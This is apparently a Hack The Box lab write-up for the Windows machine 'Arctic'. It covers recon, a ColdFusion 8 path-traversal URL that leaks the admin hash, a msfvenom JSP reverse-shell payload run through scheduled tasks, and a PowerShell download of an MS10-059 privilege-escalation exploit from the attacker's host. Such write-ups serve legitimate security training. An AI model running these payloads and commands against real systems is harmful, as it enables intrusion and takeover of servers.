 ```yaml
---
layout: post
title:  "HTB Artic Windows"
description : Tools and techniques used, LFI, hashkiller, jsp-shell
tags: HTB, Coldfusion, hashkiller, windows-suggester
---
```


# HTB Artic
# Recon

```ruby
Nmap scan report for 10.10.10.11
Host is up (0.048s latency).

PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
# Exploitation
* We noticed that port `8500` is open.This port is used for Adobe ColdFusion.
* We investigate further and we find a web app running.  

![](https://lh3.googleusercontent.com/MPpzTT1fUn_dnDqNFBouPgLrdpz42g_boV6kvtZ3zSICG9i2U-lt3006mkvihoNRm1oSaCHCi8iBmigihL0GfaSm95zNPU9BHLXOcgWb42UHFa_SHej_z9aegRpYcXxP_7n-AlseZt0y055LAPkdgum54nA9qfedtkcGDvXg5bRRPjn59IJtWHyI4QUommXcHA3jauzjo0XfeURw-k-rkL4dEMFmqE55yBRYW288P-Fzp6pB-f38WCBYo2c6-5lLHwVo4QdGCV05ddO7O2yn-xBAV0H-YHQvhaUpQ1CK-roJG0TA_QPONcsTi0NfLvtQwD-MPRswxMdSEPOASC2h1UD4C8NgvERwo8IuruMzy1S2j_aemAmaWLKvxYvQqe7Y83KFa_sfS7IwAetqCKdKbwSMXHWwy1aK1_eWIKWvmVncDqttJKd9OBjq8f6O8IFeNUeCnIfteEXLN4upff6w_dlw7fgcK2z42pEoE1VwRKFsqt5oUMN868TWmQp5EXI3cTGPstS_4zesKMIL_4Mm4hJaY11iYfJt8VYBhTSZB5zo6s-TgW2JU7JwwLI2pq4dC6VMNTZot-Uok4yJLrFsU8i_XQ9Jry6L5YDZBNT76Q6kwgXb2_2M1blO-8SgxhxZUK_z3ezZ8dZTUT8z8jueFt81cjDjutQwZ0Ct50GPVkg5bYl1AaNRRTo=w404-h195-no)

![](https://lh3.googleusercontent.com/1q7e_7yA20GcWefxFljf6vTMus6fJJgTnPKexMrJzFkmB23569xCcwDCI-BxlgO6VorvW1AHHx6WVy8XmLIZIjJDL6T5xcCNhMInaAcYMjI4yqc_LX1ma3krqMY-ODBUBJiGPoYYd883g3XdbqpNfEyGGntGnAvMI94h4r5hgPHo5sfcq4c24qGRygvGLgyy6to6V8Nr3zzGft3GdkfwzND_ZbkpVE_MMiyd0xAWCw_qp3xMIhIpOJjOmV0gGFXuoZtynOWAG7TkAmmAcuLjaqluMPPvYrSxgllQ1bcxYN1pm3geTJ3g3fU69Te6oESiQ9bcLfNOx0DJCxwWtKbhASc7YjjSnU-s-sx-kyl3c55zerlWuJAbEG8_u3aTIfBMOIpBR6rYNQL41UTrMhaCZpwyz1eopzxKtwexZTSBJSqIPgqB3EO3kmCKrBpoe1EZA7nlQh6sjE36lYxnVtzYAIdlRMUewU8yjhLAuXfTbFoJ4yUNZjo10iYnB785EZLzy3XpoHX1a6-tbzV8W3A8Htfa4kvGShj_BiuzEBiK9gl_wrEM1KolRwPToOc9h16EBtJm1F6ATh7Fl3xW8ugovrClcC6w7kL1-IMg0EWyFQC7yffOk-qisVZ7elliubcFO_CoKbygVv0hDn6MO9yq_AppdbZlf23kzdIiDhSboVBc2O98H56vJO8=w523-h297-no)

* Finally we we're able to locate the admin page. This provides us with very important information like the adobe version running.
* Some googlefu reveals that this version of Adobe is vulnerable to LFI.
- PoC:
```
 http://site/CFIDE/administrator/enter.cfm?locale=..\..\..\..\..\..\..\..\ColdFusion8\lib\password.properties%00en
```
* So we exploit the admin page to obtain the password hash for the admin user

![](https://lh3.googleusercontent.com/A22EMJ2VPNOYLkGD_fhb8FZODYdwUEF70hiMtKuMPrsFMN2QRrQtiYPrAZPp33oKbh9SUpP9jrDgC_x1KTXY20qqHWWSxcLOL9lrfkiIFqDUSY5CJYu7btbqeHQv82NtXIUW8nzVwX4ZGPfB3dgKSYXyL6QVwqA17I0fRlCcTtMt1LYZoduWkLrUmSsIPys0w-vFox_2FgaB2kakMItBT9Lby4AhQRMGvCfR4CurxMxkSbDohkio8qD54I4Z-aWAxZMdAf9PQzJXxcqLg035_M0_zhpZ30HVVYW3iFZ0I5oC7gPzxmUWESbbEgjgOmfQrowb3VQP2GEK9f-jtYBELSeDJ2KIs_OQ637jWgZQ2zu6L1PRtiOY7ah3QtscgFKicn52Q29XYw059K_SZX3sKJpPq-HwbnO2RuQJhjH1v7kvqm7XRiy35PKM7lA-bKZoBwLeDj54Gm48pQicOGWjWf8780LePz9-5GEQqjBK8JA1z4Pl6oq5rDVbcv5wz3HUnrZCYZjbVbwFnMhxmfOEvkY6tPg1eKtHjA4DoaqFIh0Zf2c-FMiN4wvwpE3g2Vs8v765muJEwQAWcFm5I3ImRUIxQ-7fw_qiuwFSnWbGeTjQnL58sJ63natllTMtoOW5mwXS754quSI4PP95T2H2bdJhwVRQngAqL6Vc2u0AS6b7znw0IGxv4yI=w520-h464-no)



* We crack the hash using a cracking website `https://hashkiller.co.uk/Cracker` and we our SHA1 password `happyday`

* We login using the admin password

![](https://lh3.googleusercontent.com/a0jn07Idy0VE8z77tsRLB2OsJdk07-9WyiXiFDOAAMECzfW5yClAyQDBtR911AtC2hMcV0HXk9CfnRwfl6OV_Xxdn-UGHlsrFArhFATwdMwOmobatWaPjsJFaSDpRPVnWmDWYRdokCne1PJXcR_fx-OOQce5W2mCNqYmyu2qzF4eYyQPfXzukDhDkIS2Sn05EYpeNa8C0spY-J08tPVIryxPWDs5Ddb1WvKqCRT7gWYPT0Aml-LQ5Ofq2bDFrhhwtUQOu2V9FYS84p06CV7DWuxGqtRV5sR5MHDTnnoWvawDyT2MeRG_uDlFL0JfEIx7A4_zVyifA3F9GPbSzG9pUUdPh26IWJZQKDRRNZXjo7ZqbdWnVtFVEC0JNFUqQqe3PR8vs2eIGN3aDpKo-_SVPUL44myOU8zr1EKqr5uSR2gNiPmB-P-2F8p5OY5FS54owfScwuJsyNh6TcR1_kpX4uLrjgVfVoz5GBjORHaXPbKPWh2yNlMipSRk30mUafo1ObJIw-ZCy5nWHW2dTw-r6Qy4kJzRdkPHAcvSkRN3lkXvtkkbTpS_IhS8FiBSd8-TvFf4k7hktXmIqVonquQY-82uhQOQhkj9fkJJZDdbce304fs__zSyT9QOCH43ZLQt3nJn4cCW3JXUhE9SMfaXfN6eVOtWZMbWSJT9iJbbAjVIKXunlUQXyvw=w601-h491-no)

# Exploitation
Once on the admin panel we choose scheduled tasks option from inside Debugging & logging for scheduling new task.
![](https://lh3.googleusercontent.com/LEq9ySUtSZiercJCBL1BhGUM9G7a3DF87T01ALBPnrg0Y6Q8lNkOuI-g0MuHjsu7p6A8kI4PsGmE8SjA_55jN8gHCOBKUIfXGAx9S3FYQyA0HTyV5qTZhYVAHj82MV4yn1QREOS9xrzSXy0IzIb32OGlRzcr_sEnFlpKG0eLEu77-dwmBaflfRN86vNzAvUu6OCrEsu0v4rSZYlfR9ysxs1X-qNDFzRQtFg7xsyRrZxsuFugvxhWv72kbzQDCV8_ry_4BAjw4gWgNOMM9DP-3AOKhi9LqD3dK3ru-HC2wRvZ-UAQMUVmwdHA2rbn9zH6O6HHHW-FG8FEqDgvW5U-EFxBiMvlmYQGlBRSPe1ru3t8aEn-pqOa39uOXLpPvw3N3dJNpSVJKHseXkR0OwfHVI_j6pcf2cPn_zIVIddDX9Vf3Hb4OmWxIz8iiHz84gtc4Q-sNaOSyd0RbeQqnAtxk5LrZVzvP3wd2VlC6daMVmy_I6qUc_4c2MV-mhKPrqQOBNx0KpNK-LY-d42bwa0Hw47v2D9d2hcOSr2a2mgWAnDMgJmJWpWxBpqLLUPuMwwpLQsq06IBT_KkT6VZoKHgq6xeKggKrOmKDsQR3yGHWS1u7VxH-r1HWQSnAv_iBG1lU-H5NnSftPZ7uzOGmByit4fBl5Kzf8YkqxNHVSqDF8iNKgjGujK0Xwk=w660-h411-no)

![](https://i1.wp.com/2.bp.blogspot.com/-LjTRFFM_1ro/Wr-nXwWY4mI/AAAAAAAAV5I/j392zbTSVSAnnxhTwrWklhQL0hizsgLiQCEwYBhgL/s1600/9.png?w=687&ssl=1)


From the schedule task settings we can upload or .jsp shell
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to
Connect On> -f raw > shell.jsp
```
We set up apache to serve our payload.
![](https://lh3.googleusercontent.com/Min2o6TIiNxI-w_6sZkca7T7KNOT1fNgjn6feJlQS2vkgQie689AejBaHHqejyQY-nFFpENPqcZ1DP4AVNFNkXg8_i0dC8sH0R_4wLjGEzn2r--p4UO3nANVgF5K7wUDqk-9PhUalvrVhRqZ5AUPOuM8blGw8xOicCz-FmtAYOaz1yLvAjCwC4qcZVnUUKLW9Spw3cbbcjRWvHtdgCeOpwRhMHKv5lRYu64cgp-ie_qWsFudR8CdHKVJHrm2VopUUgw3QyZY6bnrZu3LZLIlvaCsVTVPnQbszTmlaRcbwxxAg1pjzE0j8IarAgQuHq64pUlTRLXXTWDlCmPO1FpWIgldozhU8fqu7Gb3it-OStT-s15EHto_2afBh9kj08qj87rKy-iPYwijXt9lO9niZj8Z9aQ7xv4P497XaSm9oa9XwbwPfOKwLJKUbhuOCcXdpCX1tWBxqSddzWikNaFk-3QW92MbfxTCHxdPCPO3u9M3M45q2ACNrQ74zLefB-OLPnmWHEEK_pocCa5wDgBTLZek0_xSCLt_x7w0YyttR-ZkJzFVtOXaL_xlYlTaaERRFQoBdzpYb_xCc2-vacEkzyoRwJIvQPmQAsraTStiZOsafDPq-U0ebr-2XHg1G1kXDGs-tQaYY67jBu0JYLv5gbqjLzT03LGvU7znxeBUjxC9r2g41pY0u7o=w1027-h245-no)

Then we proceed to run the task so our payload can be executed
![](https://lh3.googleusercontent.com/veug3uR-KmVK52EuD7-30Ogj9fDcl5kKRq09M3GFg0kCYbjVrbqFxa5TRIdM3YQuWK_1f_s-Y1oeXgl3XT8IRIuDkrsblzW6ph5IC8jwPFmy8HlzTCdr69PdeWqfLr4xEUqdvzvdRnFlj6S4-JvlMKy7tPQVpmb9EmKWoMhRVH1ydrHKb-3CdqD0hOn-v_70n-SwVHiH_amiu5ZKzhRntirWYNadxOehED8INqiXltTb6FQCyX0mLf9bwDyhwkKDo62WqTELPqXmdeRb5YGYATRqLqHKTNw85eIwerUaacgw9NrfpiWbfcvtGrYzAGogC661qTV9k2ljwWrvmr-YJApEo77rVe-lSR4w9yc_AGDqfuBjkqpAk7SbGEzN0VFr3TYBuxOsFe2fnk_yBqCa2jfSVGlmmJ3eqhWl0l9VqcnSpQnJjvLLS2cumQm_czk1jQaTzi5L-zbEfuB4YWzSbtvc073MWyGJrMFiBAsoc1HRvsz0hrqCo2Uwp9C7yrK-w03YCauhxuA-iZiIcGqv_V9zED0bdMkxG6UIVBrEBMdcTZbIhUbXN22TOmyVctxcl6G_rzmpaoBslO4r1IHBrXw1JTeRh-ONNsVkeet4FS_aINDcThry4-qgQ7eKRx918zFAfKWl9Du7QPozdLVkoBMLKGwu54sRuZgYof_NTBzjrrw9V1O3fzE=w611-h256-no)

Finally, we set up an nc listerner and we catch our shell.
![](https://lh3.googleusercontent.com/W__r2reVLTX0-3dTnY1fHPVfnwnJnCudwSOdykpYWPwjtPnY9eeqNDYvmPvRKWiK3A7rk1v8vCi2aJTdacu0mqswn2NJuD5fXbcqSGmSQVn8DFfhq5XBqOpyYh8M8DREdpeW3_Tz0L8fV9ZtIcgIce_D83SYhDyXgCqh9l3bCUbjPPS2hgzqnmc4lEniZqf_H1az5vrXe_b5z5kt1sSGbhtbMrmANvjIqDswKKOFfECRsImNYwQhWN_h2cECwoh9ZSbdmLSsGL1YWLeO5Ul_HyflbSE1RReHm4U2Myc_D2D6Slmw_xMUNhfAdttVj66vy-Ve1oyY0QER_zDMEuoKvrYdI7ySFZrp7yJ7ZKSkJiCe1huswyJAHvyeE4fdNU8ffRdWiWMooQFD3aHcSx1vi3YyDqmOWhzsjWrkrsUzdqhOWUC-N86nnVxWhcUFV99yhc7sShtymX9xES1mFKtPdUpwdMbG0PNMbSTpZx6chrAQKZqM36IfGUjkx6fDwsJFCQDp4VHp10-4CrGU1W4PsL3Vo7imPTZfDQ1mwHm2mZDyE6cddXMojT2nB6GhU5AKkTUL9GQpqllKyfsHJ1UU1SQ4WjvJW74OKso5Nf2CAHHw9Psa5lPQXGNAc-Z-oRFznWSL6nGYXC6bQdoPhwTxGb4SwyB7sJiik-h_6Tvn4ECV3foiSMLWsmY=w671-h230-no)

# Privilege Escalation
We run windows suggeters and after a lot trials and errors I find a suitabl exploit
* MS10-059: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege (982799)

```ruby
python windows-exploit-suggester.py --database 2019-10-11-mssb.xls --systeminfo
systeminfo.txt
```
After some google I find a compiled version of the exploit, we dowload the file and run it
```
powershell "(new-object System.Net.WebClient).Downloadfile('http://10.10.14.14/
Chimichurri.exe', 'Chimichurri.exe')"
```
![](https://lh3.googleusercontent.com/epn8X8AntKErOlKnNUuVw1nK6LXq32S5kuCC27WqFVE21wmFWkCB0jYswzA_R7FE_VySFOnC35HPiUsp-WdXHusyJfK8T8kl2gqw3GX0pcEIf9Dsnq4E26YeIipm-09eV3ChIW3-hsAe_iKKLQ1JGDNB6bd5UYKIujfoZwlfk5db_H9YIIrggCJz0fWKfkXOd9toqrK2TimuVtTkUYC8VEJHTeCE0GMTICabHeERzM1chvTHUsR93mbj3_JsTOrK3xpWlUcKpxcxssonCXrQwNO82yWvsRP15n5eWa7OYMD76iDbi8aAfUr1b2TdlNaHdIl3Js7C4SPv4cpWd46WBt640jSm2hC8F8Kf61FqjzTPIhwvRRiyQRxMdqnNttv0Wepn1fQ3VNd5EMo67kDP6ZEAlVtbutI6FpZ3SdFhr0F0jawrgxTEvh6QdoyVE7e-Mj_IxJDJYPcA-_f8hAv0_Zi-7H09pMAL6zt-BGCqCe5-4pydPNOQi7pZuRff1KKChiv8SlawqG1-G5V6O0INztk4vxIJTUFCLTfK8GQXi2A-XOtuCwMJgNX0PgfyS4HG1TyVxrli9YE_32uTj8dUnMRlkY_7a8vlKe7Oty-_b4sJ2g66fCSVZx5PlhO8vvNOsempaSCwGl6U9r9GIy6m7fM7IikramDNYbZHfKB5BPqrrFawAk-La2M=w1327-h497-no)

![](https://lh3.googleusercontent.com/diUlDO3Ebgxfj1_edvI_NVTUb5dJNV_ffuJ_cUVOToqr3JwXpfRmx94DtSnrxXSL2w4QoG7h5hZIt468Lg_btTvVgQGA4AU-7wN9FoYz1IKx4bG_0GknHdZYQh0Oc-YQXdEHYnUaAPt7dVcNxGhzUdRkAi06ZzZDrBWUwzG45yRbbMpq7IZe5x7Gc6GUx8HIs9qHi__LjFqgQQhmBsiwuIGGYT0_dSTG5xvdAB1JLNte7YUZ5FaDzdMWRNQWUO5ExoD_G9hm27znUO_sAttyJkS2o_B1c6zHB3brIkJMgot6GqvJJuiIG__CRkZJ7q5_m32jCjFhqagmpIhl1XkXYJKMLKLq6b6UXu3lpWQoAUV7kU5z1nJ0BD1ztKnRFToZTewG0rc6aCTJHF0O8w_G28KMLtS5_786lodnceDdEEIzh4kf5h_JxsbZjSXiFTPlCwQUU_tZb8HJwQxsYdnWTkm7GMcluG_0z68Bt5vmrToLJ6v_r2eXjmPyxSRh1-6ZwSTv9MvKD0jcaxBzVYtiU_Pivk-VzTrOrtqNNNVZTCQhx22OlXlRV-0-A_FeTvPAa2tzLYjsLQ3EvIgUBLOFMQkKCdcRZwR7lGK2LCtJDDgcr8xlj9rIVOS3djjGKJETRLspPm_54KCkvhX3XbRnDAwMSL6a-ZgmPQXNzyHCLNh_xbk6Gut-8TM=w640-h466-no)


